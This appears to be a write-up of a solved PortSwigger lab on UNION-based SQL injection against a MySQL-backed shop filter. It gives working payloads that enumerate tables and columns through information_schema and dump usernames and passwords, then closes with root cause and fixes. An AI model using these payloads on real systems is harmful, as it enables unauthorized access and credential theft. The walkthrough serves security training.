



# SQL injection attack, listing the database contents on non-Oracle databases

| Field | Value |
|---|---|
| **Difficulty** | Practitioner |
| **Category** | SQL Injection (Examining the database) |
| **Status** | Solved |
| **Lab URL** | `https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle` |

---

## Objective

The product category filter is vulnerable to SQL injection and the query results are reflected in the response. The goal is a full end-to-end exploit chain:

1. Determine the number of columns returned by the original query
2. Use a `UNION` injection to enumerate the database tables
3. Find the table that holds user credentials
4. Enumerate that table's columns
5. Identify the username and password columns
6. Retrieve the credential records
7. Log in as the `administrator` user

---

## Methodology

Full attack chain:

1. Identify the injection point in the `category` parameter
2. Determine the column count with `ORDER BY`
3. Confirm a 2-column `UNION`
4. Enumerate database tables via `information_schema.tables`
5. Identify the dynamically named users table (`users_gpnikx`)
6. Enumerate its columns via `information_schema.columns`
7. Identify the username/password columns
8. Retrieve credential records
9. Authenticate as `administrator`

---

## 1. Determining the number of columns

I probed the query structure with `ORDER BY`. `ORDER BY n` sorts the results by the `n`-th column; as the number grows past the actual column count, the database throws an error because the referenced column doesn't exist. The **highest number that works = the column count**.

I incremented the value until the query failed, confirming that the original query returns **2 columns**.

A `UNION` appends a second `SELECT` to the original result set, but both queries must return the **same number of columns** — otherwise the database rejects the query. So the injected `SELECT` also has to be 2 columns.

---

## 2. Enumerating the database tables

With the column count known, I queried the database's own metadata. MySQL keeps table information in `information_schema.tables`; each row describes one table, and the `table_name` column holds its name.

```http
GET /filter?category=Clothing,+shoes+and+accessories'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- HTTP/2
```

Breaking it down:

- `UNION SELECT table_name, NULL` — a 2-column select (to match the query), pulling each table's name into the first column and padding the second with `NULL`
- `FROM information_schema.tables` — the system table that lists every table in the database
- `table_name` — the column that holds the table names, which the page now renders

The response displayed the list of database tables.



---

## 3. Finding the users table

Scanning the unfolded table names, the credential table was the one with the random suffix — `users_gpnikx`. The suffix is a per-lab random value, so the exact name is different every time; what matters is identifying the table that clearly holds application users.

---

## 4. Enumerating the users table's columns

To learn the columns inside `users_gpnikx`, I queried the second piece of metadata: `information_schema.columns`, which holds one row per column of every table.

```http
GET /filter?category=Clothing,+shoes+and+accessories'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_gpnikx'-- HTTP/2
```

- `column_name` — the column holding column names
- `FROM information_schema.columns` — the metadata table for columns
- `WHERE table_name='users_gpnikx'` — restrict to the users table

The response revealed:

- `username_xeqqxy`
- `email`
- `password_ifdlmv`

The auth-relevant columns are `username_xeqqxy` and `password_ifdlmv`.



---

## 5. Retrieving the credentials

I then queried the discovered table and credential columns directly. The SQL the injected query logically runs:

```sql
SELECT username_xeqqxy, password_ifdlmv
FROM users_gpnikx;
```

Implemented as the UNION payload:

```sql
' UNION SELECT username_xeqqxy, password_ifdlmv FROM users_gpnikx--
```

The application rendered each username paired with its password, including the `administrator` account.



---

## 6. Logging in as administrator

Using the `administrator` credentials retrieved in step 5, I authenticated to the application and the lab was marked solved. (The actual password is `<REDACTED_LAB_PASSWORD>` and is deliberately not reproduced here.)

---

## Payloads

| Step | Payload |
|---|---|
| Enumerate tables | `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--+` |
| Enumerate columns | `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_gpnikx'--+` |
| Retrieve credentials | `'+UNION+SELECT+username_xeqqxy,+password_ifdlmv+FROM+users_gpnikx--+` |

---

## Why It Works

The original query is roughly:

```sql
SELECT * FROM products WHERE category = 'Clothing, shoes and accessories'
```

- `ORDER BY` revealed 2 columns, so the injected `SELECT` must also return 2.
- `information_schema` is MySQL's built-in catalog of the database itself — querying it lets an attacker map the entire schema without guessing table or column names.
- Once the table (`users_gpnikx`) and its credential columns (`username_xeqqxy`, `password_ifdlmv`) are known, a direct `UNION SELECT` of those columns dumps the accounts into the reflected response.
- The `--` comment suppresses the rest of the original query so the injected SQL parses cleanly.

---

## Root Cause

The `category` parameter is concatenated directly into the SQL query with no parameterization or validation:

```python
query = "SELECT * FROM products WHERE category = '" + category + "'"
```

This allows the attacker to extend a single query into a full data-theft pipeline via `UNION`.

---

## Impact

Full database disclosure: schema, tables, columns, and arbitrary data can be dumped through the reflected result. In this lab that meant user credentials → administrator account takeover.

---

## Fix

- **Parameterized queries / prepared statements** keep user input out of SQL syntax
- **Validate/whitelist** the `category` parameter
- **Least privilege** for the DB account so `information_schema` and credential tables aren't readable
- **Restrict error/verbosity** exposure

---

## Key Takeaways

- `information_schema` is the metadata source on MySQL — `.tables` lists tables, `.columns` lists columns
- Column names can be randomized/suffixed in real apps, so enumerate before extracting
- Always find the column count first; a `UNION` with a mismatched column count just errors
- Credentials in DBs are often stored in plaintext — hash and salt them

---

## References

- [PortSwigger: SQL injection](https://portswigger.net/web-security/sql-injection)
- [PortSwigger: SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [PortSwigger: Examining the database](https://portswigger.net/web-security/sql-injection/examining-the-database)
- [MySQL: information_schema](https://dev.mysql.com/doc/refman/en/information-schema.html)
- [OWASP: SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)